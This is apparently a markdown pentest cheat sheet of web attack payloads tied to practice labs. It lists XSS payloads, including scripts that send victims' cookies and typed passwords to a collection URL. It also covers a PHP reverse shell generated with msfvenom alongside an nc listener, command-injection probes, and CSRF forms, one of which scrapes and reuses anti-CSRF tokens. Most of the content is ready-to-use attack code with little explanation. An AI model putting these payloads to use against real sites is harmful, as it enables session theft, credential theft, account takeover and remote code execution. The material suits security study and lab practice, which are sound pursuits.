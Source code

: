 # XSS
### XSS Hunter
`
https://xsshunter.com/
`
### XSS Polyglot (decode to get actual payload)
`
amFWYXNDcmlwdDovKi0vKmAvKlxgLyonLyoiLyoqLygvKiAqL29uZXJyb3I9YWxlcnQoJ1RITScpICkvLyUwRCUwQSUwZCUwYS8vPC9zdFlsZS88L3RpdExlLzwvdGVYdGFyRWEvPC9zY1JpcHQvLS0hPlx4M2NzVmcvPHNWZy9vTmxvQWQ9YWxlcnQoJ1RITScpLy8+XHgzZQ==
`
### Stored XSS
#### Steal cookie
`<script>
fetch('URL', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>`

#### Capture other users information
`<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('URL',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">`

#### Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped

`http://foo?&apos;-alert(1)-&apos;`

### Reflected XSS
#### Reflected XSS into attribute with angle brackets HTML-encoded

`"onmouseover="alert(1)`

#### Reflected with `"` escapsed

`\"-alert(1)}//`

#### Reflected XSS into HTML context with most tags and attributes blocked

`<$tag$ $attribute$> Using Burp Suite Intruder`

#### Reflected XSS into a JavaScript string with single quote and backslash escaped

`</script><script>alert(1)</script>`

#### Reflected XSS with some SVG animate transform

`<svg><animatetransform onbegin=alert(1)>`

#### Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped

`\'-alert(1)//`

Explain: 

If user input is `alert('1')`

`var a = "alert(\'1\')"`

To bypass escaped, instead of inserting `, we will use `\'`.

`a = '\\' // a = character (\)`


#### Reflected XSS into HTML context with all tags blocked except custom ones
`<xss id="element-id" onclick="alert(1)" tabindex=1>#element-id`

[Why we use tabIndex here?](https://developer.mozilla.org/en-US/docs/Web/HTML/Global_attributes/tabindex)

Why we add `#element-id` at the end?

The hash at the end of the URL focuses on this element as soon as the page is loaded, causing the alert payload to be called. 

#### Reflected XSS in `canonical` link tag
[About canonical link tag](https://ahrefs.com/blog/canonical-tags/) -> We will exploit by break href attribute

#### Reflected XSS with SVG Animate

``
<svg><a><animate attributeName="href" values="javascript:alert(1)"></animate><text x="20" y="20">Click me</text></a>'</svg>
``

### DOM XSS
#### DOM XSS in `innerHTML`  sink using source `location.search`
`<img src=1 onerror=alert(1)>`

#### DOM XSS in jQuery selector sink using a change event
`<iframe src="URL" onload="this.src+='xss'"></iframe>`

#### DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded
[XSS Angular JS](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md)

# RFI
### Shell generation
`msfvenom -p php/reverse_php lport=4444 lhost=<your ip > /path/to/shell`

### Start listen on port
`cd /path/to/shell`

`sudo python3 -m http.server`

`nc -lvp 4444`                 


# Command Injection
Use one of the following commands to test command injection. Or you can use `Burp Suite Intruder` with this [payload](https://github.com/payloadbox/command-injection-payload-list).
### Blind
`ping`

`>` forcing some output && `cat`

`curl` great way

### Verbose
#### Linux
`whoami` || `ls` || `ping` || `sleep` ||  `nc`

#### Windows
`whoami` || `dir` || `ping` || `timeout`

### CSRF 
#### Simple payload
Access [this challenge](https://www.root-me.org/en/Challenges/Web-Client/CSRF-0-protection)
```
<iframe style="display:none" name="csrf-frame"></iframe>
    <form  id="csrf-form" target="csrf-frame" action="http://challenge01.root-me.org/web-client/ch22/index.php?action=profile" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="username" value="ad" />
      <input type="hidden" name="status" value="on" />
      <input type="submit" value="Submit request" />
    </form>
<script>document.getElementById("csrf-form").submit()</script>
```

#### Token Bypass
Sample payload for bypassing CSRF Token. Access [this challenge](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf)

```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```
